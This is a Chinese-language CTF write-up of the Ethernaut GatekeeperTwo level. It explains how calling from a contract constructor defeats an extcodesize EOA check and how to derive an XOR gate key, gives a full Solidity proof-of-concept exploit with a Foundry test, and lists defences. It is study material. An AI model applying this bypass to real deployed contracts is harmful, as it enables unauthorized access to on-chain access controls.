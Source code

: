 # 14. GateKeeperTwo

## 攻击分析
- ctf网址：https://ethernaut.openzeppelin.com/level/0x0C791D1923c738AC8c4ACFD0A60382eE5FF08a23
- 攻击类型：访问权限控制
- 目标：进入合约，将 entrant 更改成 deployer
- 要求：满足三个 modifier 条件

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

这个与 [GateKeeperOne](https://github.com/Chocolatieee0929/ContractSafetyStudy/blob/main/ethernaut/solution/13.GateKeeperOne.md) 类似，第二、三个 modifier不同。

2. gateTwo

在以太坊中，地址可以是外部用户地址（Externally Owned Accounts，缩写EOA），也可以是合约地址。有时候需要区分这两种地址，或者限制其他合约地址进行跨合约调用，以防止发生黑客攻击。
之前，通常使用 EVM 指令 extcodesize 来获取指定地址关联的合约代码的长度。如果返回的长度大于0，则表示该地址是一个合约地址；如果返回的长度为0，则表示该地址是一个外部用户地址，依此判断地址的类型，并采取相应的安全措施。

`assembly { x := extcodesize(caller()) }`中x解析出的是合约的代码长度，而caller()返回的是调用者的地址，x == 0 表示期望调用者不是合约，是EOA账户，这个要求与gateOne是相悖的，那么我们应该怎么做呢？

通过对`extcodesize`的学习，了解到通过合约constructor的调用来避开`extcodesize`的检查，我写了篇学习文章[《EVM 指令 extcodesize 学习》](https://github.com/Chocolatieee0929/ContractSafetyStudy/Security/BypassingExternalEOACheck.md)

3. gateThree
根据[SolidityBitwise](https://docs.soliditylang.org/en/v0.8.24/cheatsheet.html#order-of-precedence-of-operators) 可知 ^ 优先于相等运算符。要求传入的参数与 msg.sender 的哈希值进行异或运算，然后与 type(uint64).max 进行比较, `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) `这个很容易得到，对于GateKeeperTwo合约来说来说，msg.sender就是攻击合约的地址，那么我们需要考虑如何通过type(uint64).max 来反推_gateKey的值。

[^ Bitwise XOR](https://zh.wikipedia.org/wiki/%E5%BC%82%E6%88%96%E9%97%A8)可知，a ^ b = c, 即 a^c = b.
`bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max)` 解除gateKey

## Proof of Concept

根据以上分析，完整的 PoC 代码如下：
```
interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Solution {
    address contractAddress;

    constructor(address _contractAddress) {
      contractAddress = _contractAddress;
      unchecked{
          bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max);
          IGatekeeperTwo(contractAddress).enter(key);
      }
    }
}

contract GatekeeperTwoTest is BaseTest {

    Solution public solution;

    function setUp() public override {
        super.setUp();
        gatekeeperTwo = GatekeeperTwo(contractAddress);
    }

    function test_Attack() public {
        vm.startBroadcast(deployer);
        solution = new Solution(address(contractAddress));
        assertEq(gatekeeperTwo.entrant(), deployer);
        vm.stopBroadcast();
    }
}
```

## 防御措施

- 通过检查 extcodesize 可以确定地址是否为合约，这存在明显漏洞，如果 extcodesize > 0，则该地址为合约；但 extcodesize = 0，则该地址可能为 EOA，也可能是正在创建状态的合约。
- 如果想要检测调用者是否为合约，可以通过 (tx.origin == msg.sender) 来进行判断。当调用者为 EOA 时，tx.origin 和 msg.sender 相等；当它们不相等时，调用者为合约。
```solidity
Copy code
function isContract(address account) public view returns (bool) {
    return (tx.origin != msg.sender);
}
```
- 真实攻击案例，[Fei Protocol Flashloan Vulnerability(May 14, 2021)](https://medium.com/immunefi/fei-protocol-flashloan-vulnerability-postmortem-7c5dc001affb)